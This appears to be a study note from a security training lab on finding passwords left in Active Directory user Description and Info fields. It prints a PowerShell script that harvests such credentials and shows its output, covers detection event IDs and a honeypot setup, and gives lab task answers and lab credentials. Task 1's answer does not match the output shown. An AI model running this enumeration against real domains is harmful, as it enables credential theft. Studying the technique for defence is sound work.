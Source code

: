 # Credentials in Object Properties

First of all Object Properties are fields in the AD that describe the object (Users, Groups, Printers, Computers...).\
So for example an User Object would contain fields like: Name, Description, Email, MemberOf, Info...

When administrators create accounts, they fill in those properties. A common practice in the past was to add the user's (or service account's) password in the `Description` or `Info`properties. However **every domain user can see this information**.

***

## Attack

### PowerShell code used to return passwords from objects

```powershell
param(
    [string] $Domain
)

Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}

SearchUserClearTextInformation -Terms @("pwd", "pass", "pw", "kodeord") @PSBoundParameters
```

The script maybe has to be just runned or added manualy the parameter "pass"

### Running the script

```powershell-session
PS C:\Users\bob\Downloads> SearchUserClearTextInformation -Terms "pass"

SamAccountName       : bonni
Enabled              : True
Description          : pass: Slavi123
Info                 : 
PasswordNeverExpires : True
PasswordLastSet      : 05/12/2022 15.18.05
```

***

## Prevention

* Continuous assessments
* Educate employees
* Automate - dont let admins manually fill the object info, so they dont hardcode the password

***

## Detection

With event ID:  `4624`/`4625`and `4768`\
This are for successfull logon, failed logon, and TGP ticket, but the location of logon tells us if is is sus or not.

***

## Honeypot

Set the password in description and enjoy the honeypot.

For setting up a honeypot user, we need to ensure the followings:

* The password/credential is configured in the `Description` field, as it's the easiest to pick up by any adversary.
* The provided password is fake/incorrect.
* The account is enabled and has recent login attempts.
* While we can use a regular user or a service account, service accounts are more likely to have this exposed as administrators tend to create them manually. In contrast, automated HR systems often make employee accounts (and the employees have likely changed the password already).
* The account has the last password configured 2+ years ago (makes it more believable that the password will likely work).

Because the provided password is wrong, we would primarily expect failed logon attempts; three event IDs (`4625`, `4771`, and `4776`) can indicate this.

***

## Tasks

### Task 1

**Connect to the target and use a script to enumerate object property fields. What password can be found in the Description field of the bonni user?**

We RDP and see that there is no script "SearchUserClearTextInformation.ps1", so we create one.

```
New-Item -Type File -Name SearchUserClearTextInformation.ps1
```

Set execution policy to unrestricted

```
 Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```

Run script

```
SearchUserClearTextInformation -Terms "pass"
```

**Answer: Slavi1234**

***

### Task 2

**Using the password discovered in the previous question, try to authenticate to DC1 as the bonni user. Is the password valid?**

Try to RDP if it works, grate, if not its a honeypot

**Answer: No**

***

### Task 3

**Connect to DC1 as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the bonni user?**

**Answer: S-1-5-21-1518138621-4282902758-752445584-3102**

